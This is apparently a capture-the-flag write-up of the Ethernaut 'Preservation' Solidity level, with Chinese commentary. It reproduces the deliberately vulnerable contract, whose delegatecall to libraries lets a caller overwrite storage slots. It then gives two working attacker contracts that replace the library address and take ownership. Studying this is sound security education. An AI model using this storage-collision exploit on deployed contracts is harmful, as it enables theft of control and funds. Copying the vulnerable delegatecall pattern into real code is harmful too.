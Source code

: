 This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

 Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```











这个打眼一看就能想到先调用setFirstTime把slot 0上的timeZone1Library替换为自己的攻击合约地址，然后再调用setFirstTime delegatecall到自己攻击合约，并执行attack方法将owner更新为我们自己的钱包地址

两个方法

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Preservation.sol";

contract Attacker {

    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 

    function setTime(uint _time) public {
        owner = address(uint160(_time));
    }

    function attack(address addr) external {
        Preservation victim = Preservation(addr);

        victim.setFirstTime(uint(uint160(address(this))));
        victim.setFirstTime(uint(uint160(msg.sender)));
        require(victim.owner() == msg.sender);
    }

}

contract Attacker2 {

    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 

    function setTime(uint _time) public {
        owner = tx.origin;
    }

    function util(address addr) pure external returns(uint) {
        return uint(uint160(addr));
    }

}
```

第二个方法是先部署Attacker2合约，然后将合约地址输入到util中，返回值作为setFirstTime方法的参数并调用，然后以任意值为参数再调用一次setFirstTime，这样就将owner更新为我们自己的钱包地址了




